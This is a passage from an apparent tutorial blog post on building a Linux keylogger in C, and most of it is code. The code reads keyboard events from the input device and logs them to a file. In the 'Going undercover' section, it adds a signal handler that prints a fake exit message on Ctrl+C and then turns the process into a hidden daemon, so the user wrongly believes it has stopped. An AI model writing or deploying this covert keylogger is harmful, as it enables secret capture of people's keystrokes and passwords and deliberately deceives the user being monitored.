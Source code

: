 ```
  {
    printf("Error %d\n", errno);
    exit(EXIT_FAILURE);
  }
  printf("Reading from %s\n",kbd_path);
  free(kbd_path); // free some memory
  while (1)
  {
    read(fd, &ev, sizeof(struct input_event)); //read from keyboard
    if(ev.type == 1)
      log_in_file(ev); //log the event
  }
  return 0;
}
```

As expected with this code, I am unable to close the program with *ctrl+c*. Whenever I am pressing it, it gives me a message that **"Sorry, But I won't exit."**

![](https://cdn-images-1.medium.com/max/640/1*882rJMJZjAMEce-EupTVhg.png)

This program can only be terminated with **kill** signal. See [here](https://www.linux.com/training-tutorials/how-kill-process-command-line/) to know how.

![](https://cdn-images-1.medium.com/max/640/1*atvzfHlH5gEBaNw3PcoDgA.png)

### Going undercover

What if we trick user with a false closing message and go undercover [(Daemon process)](https://notes.shichao.io/apue/ch13/).

The idea is to create the process as a daemon process whenever the user press *ctrl+c*. Also give the user a good message so that he actually believes that the process has closed and then probably he'll not check for the running processes to find if it actually has closed.

To achieve this, I'll make slight changes to my `signal_handler` function and add a `daemonize` function to create a daemon process. If you have already not seen what a daemon process is and how to create one - Look [here](https://notes.shichao.io/apue/ch13/).

CODE:- `basic_keylogger.c` (changed the signal_handler function)

```
#include "basic_keylogger.h"


// Signal handler function
void signal_handler(int sig) {
  printf("Exiting very gracefully :)"); //fake message
  daemonize(); // Go undercover
}

int main(void) {
  errno = 0;

  struct sigaction signal; // create signal action struct
  signal.sa_handler = signal_handler; // initialize the handler function
  sigaction(SIGINT, &signal, NULL); // assign the signal action to a specific signal

  struct input_event ev;
  char* kbd = get_me_a_keyboard(); // Get keyboard name
  char* kbd_path = concat(INPUT_EVENT_DIR, kbd); // Get complete path for keyboard

  int fd = open(kbd_path, O_RDONLY);
  if(fd == -1)
  {
    printf("Error %d\n", errno);
```